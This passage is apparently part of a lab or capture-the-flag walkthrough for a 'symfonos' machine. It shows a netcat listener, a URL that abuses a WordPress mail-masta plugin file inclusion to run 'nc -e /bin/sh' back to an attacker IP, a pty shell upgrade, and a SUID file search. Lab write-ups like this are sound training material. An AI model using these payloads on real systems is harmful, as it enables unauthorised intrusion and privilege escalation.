


3.2 Netcat reverse connection
It's time to exploit RCE. We'll use the “netcat reverse shell” to spawning shell o host machine.
a) Execute netcat on your Kali Machine:
$nc
-lvp 1234
b) Type in your browser.
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc
-e /bin/sh 192.168.12.56 1234
Output:

You got a “reverse connection” on your Kali Machine.
c) Introduce the following commands on the shell to get a shell.
python -c
'import pty;pty.spawn("/bin/bash")'
d) Enumerate any executable file.
find
/
-perm -u=s -type f 2>
/
dev
/
null
Output:

You'll see sudo “user list”. SUID bit is enabled for “/opt/statuscheck”.
Index